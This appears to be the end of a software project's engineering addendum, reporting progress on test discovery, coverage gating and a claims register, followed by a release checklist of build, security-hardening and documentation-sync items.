- E12 (implemented): additive auto-discovery and coverage tooling are now wired in [package.json](../package.json) and [run-discovered-tests.cjs](../scripts/run-discovered-tests.cjs) via `test:discover`, `test:discover:list`, and `test:coverage`; a coverage floor checker now exists at [coverage-floor-gate.cjs](../scripts/coverage-floor-gate.cjs) and is exposed as `test:coverage:check` / `test:coverage:gate`. The canonical `npm test` entrypoint now delegates to discovery, `ci:gate:check` exercises that same discovered-suite path, and README test-count language now syncs from the discovery runner. The TUI smoke test in [tests/tui-e2e.test.ts](../tests/tui-e2e.test.ts) now exits cleanly under direct execution. The coverage gate remains deterministic with the measured baseline floors. Current discovery evidence reports 195 discovered suites passing (51 `node:test`, 144 Mocha) in `prism-output/test-discovery-report.json`.
- E19 (partial): a live claims register now exists at [CLAIMS_REGISTER.md](./CLAIMS_REGISTER.md), seeded from Appendix A with status/action mapping; automated drift reconciliation is still pending.

The items above are marked **partial** until their explicit verification tests and release gates are green.

- [ ] 0 open Critical/High security findings; former-Critical PoCs fail against build
- [x] PAD signature verified; boot-gate test passes (tampered PAD aborts start)
- [ ] Secret store encrypted-at-rest on all target OSes; no `InMemory` in prod path
- [ ] SSRF egress guard active; metadata/loopback/RFC-1918 rejection tests pass
- [ ] `gitleaks` clean (working tree **and** history); no live secret in tree
- [x] SBOM generated; `npm audit`/OSV shows no unresolved high CVE
- [x] Coverage ≥ floor; coverage gate is deterministic and README count stays in sync
- [ ] `dashboard-service.ts` (and any routing file) under line-count gate
- [ ] `any` count ≤ frozen baseline; layering boundary rule green
- [ ] Claims register reconciled: 0 ❌ / 0 ⚠️ in Appendix A, or claim relabeled
- [ ] CSP/HSTS headers present; CSP-violation test green
- [ ] README feature-status table auto-generated == runtime reality

*— End of addendum.*
